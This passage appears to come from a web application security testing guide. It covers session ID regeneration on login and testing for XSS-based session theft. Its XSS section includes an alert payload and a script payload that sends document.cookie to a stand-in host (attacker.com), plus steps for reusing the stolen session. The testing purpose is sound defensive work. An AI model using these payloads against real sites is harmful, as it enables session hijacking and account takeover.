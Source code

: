 **Example Vulnerable Response**:
```
[Post-login GET /dashboard]
HTTP/1.1 200 OK
Dashboard Content
```

**Remediation**:
- Regenerate session ID on login:
  ```javascript
  app.post('/login', (req, res) => {
      req.session.regenerate((err) => {
          if (err) return res.status(500).json({ error: 'Login failed' });
          req.session.user = 'test';
          res.json({ status: 'success' });
      });
  });
  ```

### **5. Test XSS-Based Session Theft with Browser Developer Tools**

Assess if XSS vulnerabilities can steal session IDs.

**Steps**:
1. **Identify XSS Vulnerability**:
   - Test for XSS (e.g., via input fields) using payloads like `<script>alert(document.cookie)</script>`.
2. **Steal Session ID**:
   - Inject a payload to send `document.cookie` to an attacker-controlled server (e.g., `<script>fetch('http://attacker.com/steal?cookie='+document.cookie)</script>`).
   - Check if the session cookie is accessible (i.e., lacks `HttpOnly`).
3. **Test Hijacking**:
   - Use the stolen session ID to access protected resources.
4. **Analyze Findings**:
   - Vulnerable: Cookie stolen and usable.
   - Expected secure response: `HttpOnly` prevents cookie access.
5. **Document Findings**:
   - Save screenshots and network logs.

**Browser Developer Tools Commands**:
- **Command 1**: Test XSS payload:
  ```
  Console tab -> Run: document.cookie -> Check if session=abc123 is returned
  ```
- **Command 2**: Inject XSS payload:
  ```
  Elements tab -> Edit input field -> Set value to <script>alert(document.cookie)</script> -> Submit form -> Check alert
  ```

**Example Vulnerable Code**:
```html
<script>
var cookie = document.cookie; // Accessible without HttpOnly
</script>
```
